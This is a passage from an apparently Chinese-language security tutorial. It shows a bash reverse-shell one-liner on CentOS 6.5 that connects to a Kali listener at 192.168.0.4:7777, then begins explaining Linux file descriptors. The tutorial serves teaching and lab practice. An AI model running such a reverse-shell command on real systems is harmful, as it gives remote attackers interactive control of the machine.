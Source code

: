 

然后在CentOS6.5下输入：

```
bash -i >& /dev/tcp/192.168.0.4/7777 0>&1
```



[![B9l36f21h6.png](Untitled.assets/15319942901754.png)](https://image.3001.net/images/20180719/15319942901754.png)



可以看到shell成功反弹到了kali上面，可以执行命令：



[![35JfJKF24L.png](Untitled.assets/15319943073730.png)](https://image.3001.net/images/20180719/15319943073730.png)



在解释这条反弹shell的命令原理之前，首先需要掌握几个点。



linux文件描述符：linux shell下有三种标准的文件描述符，分别如下：

```
0 - stdin 代表标准输入,使用<或<<
1 - stdout 代表标准输出,使用>或>>
2 - stderr 代表标准错误输出,使用2>或2>>
```
